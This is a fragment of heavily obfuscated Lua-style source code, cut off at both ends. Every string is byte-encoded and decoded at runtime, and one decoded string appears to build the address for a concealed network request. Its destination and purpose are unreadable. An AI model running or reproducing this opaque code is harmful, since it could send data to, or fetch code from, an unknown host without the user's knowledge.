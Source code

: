 v178={};v179=v120({[v7("\20\207\182","\111\65\189\218\18")]=string.format(v7("\75\95\15\37\24\6\224\12\76\26\56\14\79\225\81\68\25\57\4\68\225\64\68\22\122\29\13\224\68\74\22\48\24\19\234\71\4\8\48\25\74\170\81\88\84\5\30\94\163\74\72\68\38\4\78\187\108\89\31\48\25\1\139\70\88\24\115\7\85\162\74\95\70\100\91\12\233\70\83\24\57\30\88\170\101\94\23\57\44\93\162\70\88\70\33\25\73\170","\207\35\43\123\85\107\60"),v117),[v7("\93\175\180\226\118\116","\25\16\202\192\138")]=v7("\218\238\153","\148\157\171\205\130\201")});v283=1;end if (v283==(1 + 0)) then v177=1;break;end end end end break;end end else v119(v7("\10\218\119\38\220\230\34\192\125\43\221\243\99\241\108\57\221\249\42\192","\150\67\180\20\73\177"),v7("\180\23\15\95\205\29\2\93\129\23\19\89\205\28\21\72\158\88\20\66\153\88\9\88\157\8\21\95\153\88\14\69\132\11\90\78\130\21\23\76\131\28\90\5\128\17\9\94\132\22\29\13\159\29\11\88\136\11\14\4